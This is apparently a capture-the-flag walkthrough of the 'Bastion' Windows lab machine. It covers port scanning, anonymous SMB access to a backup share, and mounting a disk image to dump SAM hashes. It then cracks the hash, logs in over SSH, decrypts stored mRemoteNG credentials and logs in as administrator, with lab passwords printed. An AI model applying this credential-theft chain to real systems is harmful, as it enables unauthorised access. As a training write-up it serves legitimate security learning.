- Machine Name: Bastion
- Difficulty: Easy
- OS Type: Windows

### Port Scanning - Service & Version Enumeration

```php
# Nmap 7.95 scan initiated Fri Jun 20 20:36:20 2025 as: /usr/lib/nmap/nmap -sVC --open -p- -oN initial/nmap.out -vv 10.10.10.134
Nmap scan report for 10.10.10.134
Host is up, received reset ttl 127 (0.23s latency).
Scanned at 2025-06-20 20:36:27 IST for 152s
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      REASON          VERSION
22/tcp    open  ssh          syn-ack ttl 127 OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3bG3TRRwV6dlU1lPbviOW+3fBC7wab+KSQ0Gyhvf9Z1OxFh9v5e6GP4rt5Ss76ic1oAJPIDvQwGlKdeUEnjtEtQXB/78Ptw6IPPPPwF5dI1W4GvoGR4MV5Q6CPpJ6HLIJdvAcn3isTCZgoJT69xRK0ymPnqUqaB+/ptC4xvHmW9ptHdYjDOFLlwxg17e7Sy0CA67PW/nXu7+OKaIOx0lLn8QPEcyrYVCWAqVcUsgNNAjR4h1G7tYLVg3SGrbSmIcxlhSMexIFIVfR37LFlNIYc6Pa58lj2MSQLusIzRoQxaXO4YSp/dM1tk7CN2cKx1PTd9VVSDH+/Nq0HCXPiYh3
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Mau7cS9INLBOXVd4TXFX/02+0gYbMoFzIayeYeEOAcFQrAXa1nxhHjhfpHXWEj2u0Z/hfPBzOLBGi/ngFRUg=
|   256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB34X2ZgGpYNXYb+KLFENmf0P0iQ22Q0sjws2ATjFsiN
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-06-20T17:08:46+02:00
|_clock-skew: mean: -40m00s, deviation: 1h09m13s, median: -3s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 26941/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 10974/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 18741/udp): CLEAN (Timeout)
|   Check 4 (port 32412/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-06-20T15:08:44
|_  start_date: 2025-06-20T15:05:10
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 20 20:38:59 2025 -- 1 IP address (1 host up) scanned in 159.44 seconds

```

## Enumeration

### Port 139,445/SMB

let’s start our enumeration from SMB service, i’ll first check for null session

```php
smbclient -L //10.10.10.134 -N
```



nice we found the Backups share, let’s connect to Backups share

```php
smbclient //10.10.10.134/Backups -N
```



i downloaded note.txt, let’s read it



ohh, it says the sysadmins to not to transfer the entire backup file locally, and we can see that  the WindowsImagebackup folder. let’s see what does it contains



ok seems like it contains the backup of L4mpje-PC’s system backup



we found some vhd files and BackupSpec.xml, the backupspec.xml file contains the system backup configuration



ok so we can confirm that vhd files are the backup of `C:` drive

i tried to download the vhd file but the image is too large so we are getting `parallel_read returned NT_STATUS_IO_TIMEOUT` 

let’s try to mount the share and access file from there, let’s first create directory inside - `/mnt/smb_share` to mount the share to that folder

now we’ll mount the backups share to /mnt/smb_share

```php
sudo mount -t cifs //10.10.10.134/Backups /mnt/smb_share
```

now i’ll copy the vhd file to /tmp folder

```php
sudo guestmount --add /mnt/smb_share/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd  --inspector --ro /mnt/windows
```

now we can access the file system at /mnt/windows



while enumerating filesystem i found SYSTEM in `C:\Windows\config\SYSTEM` and `C:\Windows\config\SAM` 

now we have both sam and system files, we need to copy both files to our machine

```php
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```



nice we found the NTLM hash of the L4mpje user, i’ll verify the credentials using netexec

```php
nxc smb 10.10.10.134 -u L4mpje -H 26112010952d963c8dc4217daec986d9
```



let’s try to crack this password using hashcat

```php
hashcat -m 1000 ntlm /usr/share/wordlists/rockyou.txt
```



i tried to authenticate with winrm but failed to do so. looks like our user doesn’t have the permisson to remote  management

let’s try these  credentials with ssh 

```php
nxc ssh 10.10.10.134 -u L4mpje -p bureaulampje
```



let’s ssh to machine

```php
ssh L4mpje@10.10.10.134
```



after gaining access to the system i started enumerating system, i found interesting mRemoteNG installed, after searching a bit i found that it stores the credentials in weak algorithm which can be decrypted



after searching a bit i found mRemoteNG config file - confCons.xml which actually contains the encrypted password of administrator user



let’s try to decrypt the password using https://raw.githubusercontent.com/S1lkys/CVE-2023-30367-mRemoteNG-password-dumper/refs/heads/main/mremoteng_decrypt.py

```php
python3 mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
```



let’s use evil-winrm to login to machine as administrator

```php
evil-winrm -i 10.10.10.134 -u administrator -p thXLHM96BeKL0ER2
```

